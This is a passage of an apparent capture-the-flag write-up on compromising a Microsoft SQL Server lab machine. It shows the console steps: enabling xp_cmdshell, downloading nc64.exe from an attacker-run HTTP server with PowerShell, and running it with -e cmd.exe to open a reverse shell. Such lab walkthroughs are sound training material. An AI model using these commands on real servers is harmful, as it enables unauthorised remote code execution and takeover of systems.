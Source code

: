 ```console
-----------------------------------   -----------   -----------   ------------   -----------   

access check cache bucket count                 0         65536              0             0   

access check cache quota                        0    2147483647              0             0   

Ad Hoc Distributed Queries                      0             1              0             0   

affinity I/O mask                     -2147483648    2147483647              0             0   

affinity mask                         -2147483648    2147483647              0             0
(...)

SQL> EXEC sp_configure 'xp_cmdshell', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.15:81/nc64.exe -outfile nc64.exe"
output                                                                             

--------------------------------------------------------------------------------   
```

Now we can see the files being requested on our HTTP server.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo python3 -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
10.129.156.236 - - [13/Apr/2022 12:00:18] "GET /nc64.exe HTTP/1.1" 200 -
```

Now, we just need to run `nc64.exe` in order to establish a connection via netcat.

```
SQL> xp_cmdshell "powershell -c ls C:\Users\sql_svc\Downloads"
output                                                                             

--------------------------------------------------------------------------------

    Directory: C:\Users\sql_svc\Downloads                                          

Mode                LastWriteTime         Length Name

----                -------------         ------ ----

a----        4/13/2022   9:00 AM          45272 nc64.exe

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.15 444"
```

